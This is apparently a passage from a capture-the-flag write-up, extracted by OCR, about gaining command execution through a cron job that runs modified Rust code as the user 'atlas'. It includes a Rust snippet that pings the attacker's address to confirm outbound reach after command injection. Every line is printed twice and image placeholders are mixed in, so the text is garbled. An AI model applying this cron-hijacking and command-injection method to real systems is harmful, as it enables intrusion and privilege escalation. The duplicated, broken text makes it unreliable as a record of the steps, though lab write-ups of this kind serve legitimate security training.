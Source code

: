 ```
    if command.status.success() {
        println!("Command success");
        println!("Command success");
    } else {
    } else {
        println!("Command failed");
        println!("Command failed");
    }
    }
}
}


```
```


After waiting for the cron job to run again (confirm with `pspy`), we found the file `/tmp/0xe10c`, created by the user `atlas`. 
After waiting for the cron job to run again (confirm with `pspy`), we found the file `/tmp/0xe10c`, created by the user `atlas`. 




![[Pasted image 20230703145641.png]]
![[Pasted image 20230703145641.png]]


We have command execution.
We have command execution.


Using this process, we validated the ability of the target to reach the attacker over the network with this command injection.
Using this process, we validated the ability of the target to reach the attacker over the network with this command injection.
```rust
```rust
...
...
    let command = Command::new("ping")
    let command = Command::new("ping")
        .arg("-c1")
        .arg("-c1")
        .arg("10.10.14.207")
        .arg("10.10.14.207")
        .output()
        .output()
        .expect("bash command failed");
        .expect("bash command failed");
...
...
```
```




![[Pasted image 20230703150659.png]]
![[Pasted image 20230703150659.png]]



```